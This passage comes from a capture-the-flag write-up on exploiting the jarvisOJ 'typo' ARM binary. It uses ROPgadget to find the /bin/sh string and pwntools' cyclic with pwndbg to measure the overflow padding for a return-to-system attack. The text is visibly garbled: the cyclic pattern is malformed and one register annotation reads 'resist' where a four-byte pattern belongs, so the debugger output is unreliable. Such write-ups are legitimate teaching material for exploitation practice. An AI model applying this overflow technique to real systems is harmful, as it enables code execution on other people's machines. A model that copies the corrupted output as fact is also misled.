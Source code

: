 
At this time, you need the length of padding and the address of system and /bin/sh. The address of /bin/sh can be found with ROPgadget.
```bash

jarvisOJ_typo [master●●] ROPgadget --binary ./typo --string /bin/sh

Strings information

============================================================

0x0006cb70 : /bin/sh

```

The length of padding can be easily found using pwntools&#39; **cyclic**
```assembly

pwndbg> cyclic 200

aaaabaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababababa
pwndbg> c

Continuing.



Program received signal SIGSEGV, Segmentation fault.

0x62616164 in ?? ()

LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA

──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────

 R0   0x0

 R1   0xfffef024 ◂— 0x61616161 ('aaaa')

 R2   0x7e

 R3   0x0

R4 0x62616162 (&#39;baab&#39;)
 R5   0x0

 R6   0x0

 R7   0x0

 R8   0x0

 R9   0xa5ec ◂— push   {r3, r4, r5, r6, r7, r8, sb, lr}

 R10  0xa68c ◂— push   {r3, r4, r5, lr}

R11 0x62616163 (&#39;resist&#39;)
 R12  0x0

 SP   0xfffef098 ◂— 0x62616165 ('eaab')

 PC   0x62616164 ('daab')
```